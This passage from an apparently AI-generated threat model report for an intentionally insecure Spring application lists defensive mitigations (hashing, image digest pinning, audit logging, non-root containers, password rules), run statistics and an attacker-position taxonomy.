```typescript
// jsonwebtoken@9+: pin algorithm whitelist; reject `alg:none`.
jwt.verify(token, publicKey, { algorithms: ['RS256'] })
```

**Verification:** Re-run the CRYPTO-JAVA-003 scanner check; it reports no match at `src/main/java/com/example/appsecverificationtarget/crypto/LegacyCryptoService.java:17`, and the regression test passes.

---

<a id="m-046"></a>
#### M-046 — Use modern cryptographic hash and KDF algorithms

**Addresses:**

- 🟡 [F-048](#f-048) — Broken hash primitive Java (`LegacyPasswordService.java:15`)

**Weaknesses addressed:** [W-005](#w-005)

**Prevents CWEs:**

- [CWE-328](https://cwe.mitre.org/data/definitions/328.html)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `src/main/java/com/example/appsecverificationtarget/crypto/LegacyPasswordService.java:15`

**How:** Use SHA-256+ for integrity and a password KDF (argon2id / bcrypt) for credentia…

1. Use SHA-256+ for integrity and a password KDF (argon2id / bcrypt) for credentials.
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Re-run the CRYPTO-JAVA-001 scanner check; it reports no match at `src/main/java/com/example/appsecverificationtarget/crypto/LegacyPasswordService.java:15`, and the regression test passes.

---

<a id="m-047"></a>
#### M-047 — Pin the container base image to an immutable digest

**Addresses:**

- 🟠 [F-049](#f-049) — Mutable Base Image Tag Without Digest Pin (`Dockerfile`) (`Dockerfile:4`)

**Prevents CWEs:**

- [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) - Use of Unmaintained Third-Party Components

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `Dockerfile:4`

**How:**

1. Migrate to a maintained JRE-only base image such as `eclipse-temurin:17-jre-jammy` to reduce attack surface and receive ongoing security patches.
2. Pin the chosen image to its SHA-256 digest: `FROM eclipse-temurin:17-jre-jammy@sha256:<verified-digest>`. Obtain the digest via `docker buildx imagetools inspect eclipse-temurin:17-jre-jammy`.
3. Automate digest refreshes with Dependabot (Docker support) or Renovate configured to monitor the base image tag and open PRs when the digest changes.
4. In CI, enable Docker Content Trust (`DOCKER_CONTENT_TRUST=1`) or Cosign signature verification to prevent pulling unsigned or substituted images.

_Example implementation in `Dockerfile:4`: it applies **Pin the container base image to an immutable digest**. The ordered steps above remain authoritative._

```javascript
# Before:
FROM openjdk:17-slim

# After — maintained image, pinned digest:
FROM eclipse-temurin:17-jre-jammy@sha256:REPLACE_WITH_VERIFIED_DIGEST
```

**Verification:** Run `docker inspect <image> | jq '.[0].RootFS.Layers'` on two successive builds and confirm the layer digests are identical. Run `docker buildx imagetools inspect eclipse-temurin:17-jre-jammy` to retrieve the pinnable digest before updating the Dockerfile.

**Reference:** [CWE-1104: Use of Unmaintained Third Party Components](https://cwe.mitre.org/data/definitions/1104.html)

---

<a id="m-048"></a>
#### M-048 — Add security audit logging

**Addresses:**

- 🟡 [F-050](#f-050) — No Audit Logging on Authentication and Registration Endpoints (`LegacySqliteAuthController.java:26`)

**Prevents CWEs:**

- [CWE-778](https://cwe.mitre.org/data/definitions/778.html) - Insufficient Logging

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteAuthController.java:26`

**How:**

1. Inject a SLF4J Logger into LegacySqliteAuthController and log every authentication attempt at INFO level: actor (username), outcome (accepted/denied), source IP (from HttpServletRequest), and timestamp.
2. Log failed authentication attempts at WARN level with sufficient detail to detect brute-force patterns - username (never the password), remote address, and timestamp.
3. Log new registrations at INFO level including username and role assigned.
4. Route security events to a separate audit log appender that is not co-mingled with debug output and is treated as append-only.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteAuthController.java:26`: it applies **Add security audit logging**. The ordered steps above remain authoritative._

```javascript
private static final Logger auditLog = LoggerFactory.getLogger("security.audit");

// In login():
auditLog.info("AUTH attempt username={} outcome={} ip={}",
    request.username(), result.isPresent() ? "accepted" : "denied", remoteAddr);
```

**Reference:** [CWE-778: Insufficient Logging](https://cwe.mitre.org/data/definitions/778.html)

---

<a id="m-049"></a>
#### M-049 — Drop unnecessary privileges in build and runtime

**Addresses:**

- 🟡 [F-051](#f-051) — Dockerfile USER directive (non-root) (`Dockerfile:1`)

**Prevents CWEs:**

- [CWE-250](https://cwe.mitre.org/data/definitions/250.html)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `Dockerfile:1`

**How:** Add USER <non-root-uid>

1. Add USER <non-root-uid>
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Re-run the IAC-002 scanner check; it reports no match at Dockerfile:1, and the regression test passes.

---

<a id="m-050"></a>
#### M-050 — Enforce minimum password length and BCrypt input byte limit validation in Regis…

**Addresses:**

- 🟡 [F-052](#f-052) — No Password Minimum Length Policy on User Registration (RegistrationController) (`RegistrationController.java:41`)

**Prevents CWEs:**

- [CWE-521](https://cwe.mitre.org/data/definitions/521.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/authentication/RegistrationController.java:41`

**How:**

1. Validate password length server-side: reject passwords shorter than 12 characters.
2. Reject passwords whose UTF-8 byte length exceeds 72 bytes (BCrypt truncation boundary) to prevent silent authentication failures.
3. Consider integrating a password strength estimator (zxcvbn) to enforce minimum entropy.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/authentication/RegistrationController.java:41`: it applies **Enforce minimum password length and BCrypt input byte limit validation in Regis…**. The ordered steps above remain authoritative._

```javascript
byte[] bytes = password.getBytes(StandardCharsets.UTF_8);
if (password.length() < 12) throw new ResponseStatusException(HttpStatus.BAD_REQUEST, "Password too short");
if (bytes.length > 72) throw new ResponseStatusException(HttpStatus.BAD_REQUEST, "Password too long");
```

**Verification:** `POST /register` with password=x (1 char); confirm HTTP 400 is returned with a meaningful error.

**Reference:** [CWE-521: Weak Password Requirements](https://cwe.mitre.org/data/definitions/521.html)

---

### P4 — Backlog

_No P4 mitigations._

---

## 11. Out of Scope

The following items are **explicitly excluded** from this threat model. Findings against these areas should be tracked separately.

- Third-party hosted dependencies and SaaS endpoints
- Browser runtime vulnerabilities and end-user device security
- Operating system kernel and container runtime
- Underlying network infrastructure (DNS, BGP, ISP)
- Physical security of hosting facilities

### Components Not Individually Analyzed

These components were enumerated in the architecture inventory but did not receive a dedicated STRIDE pass at this assessment depth (4 of 5 components analyzed). Re-run at a deeper depth to analyze them individually.

| ID | Component | Reason not analyzed |
|--------|----------------------|------------------------------|
| file-storage | Local Filesystem Storage | out-of-scope at depth=standard |

---

## Appendix: Run Statistics

| Field | Value |
|----------------------|----------------------|
| Invocation | `/appsec-advisor:create-threat-model --slug insecure-webapp-standard-v0.5.2 --keep-runtime-files` |
| Generated | 2026-08-02 18:17 UTC |
| Mode | full |
| Assessment depth | standard |
| Plugin version | 0.5.2-dev (analysis v5) |
| Orchestrator model | claude-sonnet-4-6 |
| Reasoning models | sonnet-economy - STRIDE claude-sonnet-4-6,<br/>triage claude-sonnet-5, merger<br/>claude-sonnet-5 |
| Repository | /home/mrohr/insecure-spring-app |
| Output directory | /home/mrohr/insecure-spring-app/docs/security |
| Wall clock (active) | 93m 19s |
| Agent compute (Σ parallel dispatches) | 112m 17s |

### Per-Stage Breakdown

| Stage | Description | Agent | Model | Duration | Tool calls | Tokens |
|--------|---------------------------------|----------------------|---------------|--------|----------|---------|
| 1 | Discovery & Architecture Modeling | appsec-threat-analyst | sonnet | 12m 00s | 41 | 123,535 |
| 1 | Trust Boundary Analysis | appsec-trust-boundary-analyst | sonnet | 4m 13s | 19 | 51,419 |
| 1 | Control & Threat Analysis | appsec-threat-analyst | sonnet | 30m 50s | 76 | 274,095 |
| 1 | STRIDE Wave 1 | appsec-stride-analyzer | sonnet | 39m 53s | 166 | 316,730 |
| 1 | Abuse Case Verification | appsec-abuse-case-verifier | claude-sonnet-5 | 9m 36s | 75 | 134,679 |
| 2 | Report Rendering | appsec-threat-renderer | claude-sonnet-5 | 15m 42s | 38 | 194,051 |
| **Total** | - | - | - | **112m 17s** | **415** | **1,094,509** |

### Per-Phase Duration Breakdown

| Phase | Description | Agent (Model) | Duration |
|---------|------------------------------------|----------------------|--------|
| Phase 3 | Architecture Modeling - 4 diagrams produced<br/>(2m30s) | threat-analyst (sonnet-4-6) | 2m 41s |
| Phase 4 | Attack Walkthroughs - 0 walkthroughs<br/>rendered (deferred to Stage 2; | threat-analyst (sonnet-4-6) | (inline) |
| Phase 5 | Asset Identification - 8 assets catalogued<br/>(0m38s) | threat-analyst (sonnet-4-6) | 44s |
| Phase 6 | Attack Surface Mapping - 54 entry points (35<br/>unauthenticated) (1m10s) | threat-analyst (sonnet-4-6) | 1m 20s |
| Phase 7 | Trust Boundary Analysis - canonical coverage<br/>gate passed | threat-analyst (sonnet-4-6) | 4m 43s |
| Phase 8 | Security Controls - 🟢 Adequate 2 🟡 Partial 5<br/>🟠 Weak 5 🔴 Missing 14 | threat-analyst (sonnet-4-6) | 4m 38s |
| Phase 9 | STRIDE dispatch prep - 5 components queued<br/>(spring-app/complex, h2-database/simple… | Nx stride-analyzer (sonnet-4-6) | 2m 21s |
| Phase 9 | STRIDE Threat Merge - 54 threats (Critical:<br/>10, High: 36, Medium: 6, Low: 2) | Nx stride-analyzer (sonnet-4-6) | 62s |
| Phase 10 | Scan Synthesis - 2 sca-practice findings, 0<br/>known-bad-libs findings | threat-analyst (sonnet-4-6) | 8s |
| Phase 10b | Triage Validation - flags written | appsec-triage-validator (sonnet-4-6) | 282s |
| Phase 11 | Substeps 1-3 complete - yaml + baseline<br/>cache written | threat-analyst (sonnet-4-6) | 32s |
| Phase 11 | Finalization (controller compose) | threat-analyst (sonnet-4-6) | 16m 40s |

---

<a id="appendix-a-vektor-taxonomy"></a>
## Appendix A — Vektor Taxonomy

This appendix defines the attacker-starting-position labels used in the Top Threats table and throughout [§8 Findings Register](#8-findings-register). Each label answers the question *what does the attacker need before the exploit begins?*

<a id="vektor-internet-anon"></a>
### Internet Anon

**Attacker position:** Unauthenticated attacker from the public internet · **Breach distance:** 1

**Preconditions:**

- Endpoint is reachable from the internet (no IP allowlist, no VPN)
- No authentication middleware blocks the request

**Typical CWEs:** [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [CWE-327](https://cwe.mitre.org/data/definitions/327.html) · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-918](https://cwe.mitre.org/data/definitions/918.html)

**Typical OWASP Top 10:** A01:2025, A05:2025, A07:2025

<a id="vektor-internet-user"></a>
### Internet User

**Attacker position:** Any authenticated low-privilege user (valid JWT / session) · **Breach distance:** 2

**Preconditions:**

- Attacker has signed up or otherwise obtained a valid user session
- Endpoint is behind auth but not behind role/admin checks

**Typical CWEs:** [CWE-434](https://cwe.mitre.org/data/definitions/434.html) · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-918](https://cwe.mitre.org/data/definitions/918.html) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [CWE-287](https://cwe.mitre.org/data/definitions/287.html)

**Typical OWASP Top 10:** A01:2025, A06:2025, A02:2025

<a id="vektor-internet-priv-user"></a>
### Internet Priv User

**Attacker position:** Authenticated admin-level user (JWT with admin role or equivalent) · **Breach distance:** 2

**Preconditions:**

- Attacker holds admin credentials or has elevated privileges
- Endpoint gated on admin role but still exploitable once reached

**Typical CWEs:** [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-94](https://cwe.mitre.org/data/definitions/94.html)

**Typical OWASP Top 10:** A01:2025

<a id="vektor-victim-required"></a>
### Victim-Required

**Attacker position:** Attacker needs victim interaction - social engineering, crafted link, or live session · **Breach distance:** 2

**Preconditions:**

- Victim must click a link, load a page, or have an active session
- Applies to XSS, CSRF, click-jacking, open redirect

**Typical CWEs:** [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [CWE-601](https://cwe.mitre.org/data/definitions/601.html) · [CWE-1021](https://cwe.mitre.org/data/definitions/1021.html)

**Typical OWASP Top 10:** A01:2025, A05:2025

<a id="vektor-build-time"></a>
### Build-Time

**Attacker position:** Attacker controls a build input - CI runner, dependency, base image, or external data fetched during build · **Breach distance:** 3

**Preconditions:**

- Compromise of a dependency, registry, or base image
- OR compromise of a CI runner with write access to artifacts

**Typical CWEs:** [CWE-506](https://cwe.mitre.org/data/definitions/506.html) · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [CWE-1039](https://cwe.mitre.org/data/definitions/1039.html) · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html)

**Typical OWASP Top 10:** A08:2025

<a id="vektor-repo-read"></a>
### Repo-Read

**Attacker position:** Attacker gains read access to source repository (leaked clone, forked fork, insider, compromised developer workstation) · **Breach distance:** 3

**Preconditions:**

- Read access to the source tree at or after commit time
- No runtime exploit needed - the vulnerability is the content of the repo

**Typical CWEs:** [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [CWE-312](https://cwe.mitre.org/data/definitions/312.html) · [CWE-540](https://cwe.mitre.org/data/definitions/540.html)

**Typical OWASP Top 10:** A04:2025, A07:2025

<a id="vektor-n-a"></a>
### n/a

**Attacker position:** Architectural / meta-finding - no runtime entry point, the finding describes a design defect aggregating multiple code-level findings

**Preconditions:**

- Finding is AF-NNN (architectural) rather than F-NNN (code-level)